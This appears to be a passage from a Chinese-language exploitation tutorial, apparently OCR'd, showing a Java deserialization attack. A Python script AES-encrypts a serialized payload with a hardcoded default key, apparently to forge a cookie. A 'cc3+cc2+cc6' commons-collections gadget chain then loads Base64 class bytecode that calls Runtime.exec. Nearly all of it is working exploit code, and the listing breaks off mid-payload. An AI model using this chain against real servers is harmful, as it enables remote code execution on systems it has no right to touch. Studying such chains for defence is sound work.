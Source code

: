 ```python
    return ciphertext


def aes_dec(enc_data):
    enc_data = base64.b64decode(enc_data)
    unpad = lambda s: s[:-s[-1]]
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = enc_data[:16]
    enctyptor = AES.new(base64.b64decode(key), mode, iv)
    plaintext = enctyptor.decrypt(enc_data[16:])
    # plaintext=bytes.decode(plaintext)
    plaintext = unpad(plaintext)
    return plaintext


if __name__ == '__main__':
    data = get_file_data("C:\\Temp\\test.bin")
    print(aes_enc(data))

```

### CC依赖如果存在

先导入maven依赖

```xml
<dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
```

##### payload

```java
//cc3+cc2+cc6缝合,不能用数组
    //原因:首先,cc6不受jdk版本限制,接着cc2不需要数组,如果使用Runtime.exec()就必须使用Transformr数组
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates=new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"aaa");
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        /*byte[] code= Files.readAllBytes(Paths.get("H:\\java\\classTest\\MyClass.class"));*/
        byte[] code= Base64.getDecoder().decode("yv66vgAAADQANQoACwAaCgAbABwIAB0KABsAHgcAHwoABQAgCQAhACIIACMKACQAJQcAJgcAJwEA" +
                "Bjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAAl0cmFuc2Zvcm0BAHIoTGNv" +
                "bS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9h" +
                "cGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAApF" +
                "eGNlcHRpb25zBwAoAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMv" +
                "RE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7" +
                "TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9u" +
                "SGFuZGxlcjspVgEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAHwEAClNvdXJjZUZpbGUBAAxN" +
                "eUNsYXNzLmphdmEMAAwADQcAKQwAKgArAQAEY2FsYwwALAAtAQATamF2YS9pby9JT0V4Y2VwdGlv" +
                "bgwALgANBwAvDAAwADEBACVsYW9kIHN1Y2Nlc3MhISEhISEhISEhISEhISEhISEhISEhISEhBwAy" +
                "DAAzADQBAAdNeUNsYXNzAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRj" +
                "L3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRl" +
                "cm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVu" +
                "dGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7" +
                "KUxqYXZhL2xhbmcvUHJvY2VzczsBAA9wcmludFN0YWNrVHJhY2UBABBqYXZhL2xhbmcvU3lzdGVt" +
                "AQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQATamF2YS9pby9QcmludFN0cmVhbQEAB3By" +
```